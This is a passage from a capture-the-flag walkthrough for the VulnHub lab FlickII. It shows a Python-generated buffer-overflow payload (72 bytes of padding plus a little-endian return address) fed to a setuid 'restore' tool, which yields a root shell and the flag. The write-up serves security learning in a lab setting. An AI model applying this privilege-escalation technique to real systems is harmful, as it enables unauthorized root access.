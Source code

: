 Let us use python to generate the payload encoded in little endian:

    [sean@fII storage]$ python -c 'print "A"*72 + "\x71\x1f\x40"'
    AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAq

You may need to use another terminal which would not mess up with your input as
urxvt did. I used tilda for this one. We just need to copy the payload when
choosing the output directory for the restore program:

    [sean@fII storage]$ /usr/local/bin/restore
    /usr/local/bin/restore
    Restore tool v0.1
    Enter the path to the backup.tar.gz: /tmp/
    /tmp/
    Path is: /tmp/
    Enter the output directory: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAq
    AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAq
    Output directory is: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

And it got us a root shell from where we can get the flag:

    [root@fII storage]# id
    uid=0(root) gid=0(root) groups=0(root),1001(bryan),1002(sean)

    root@fII root]# cat flag

      █████▒██▓     ██▓ ▄████▄   ██ ▄█▀ ██▓ ██▓
    ▓██   ▒▓██▒    ▓██▒▒██▀ ▀█   ██▄█▒ ▓██▒▓██▒
    ▒████ ░▒██░    ▒██▒▒▓█    ▄ ▓███▄░ ▒██▒▒██▒
    ░▓█▒  ░▒██░    ░██░▒▓▓▄ ▄██▒▓██ █▄ ░██░░██░
    ░▒█░   ░██████▒░██░▒ ▓███▀ ░▒██▒ █▄░██░░██░
    ▒ ░   ░ ▒░▓  ░░▓  ░ ░▒ ▒  ░▒ ▒▒ ▓▒░▓  ░▓  
    ░     ░ ░ ▒  ░ ▒ ░  ░  ▒   ░ ░▒ ▒░ ▒ ░ ▒ ░
    ░ ░     ░ ░    ▒ ░░        ░ ░░ ░  ▒ ░ ▒ ░
              ░  ░ ░  ░ ░      ░  ░    ░   ░  
                      ░                       

    You have successfully completed FlickII!

    I hope you learnt as much as I did while
    making it! Any comments/suggestions etc,
    feel free to catch me on freenode in
    #vulnhub or on twitter @leonjza

## Conclusion

This was a really great challange! The android part was a really new to me. The
exploitation part was very interesting!.

Many thanks to TurboSmouem for the challange and as usual thanks to vulnhub.
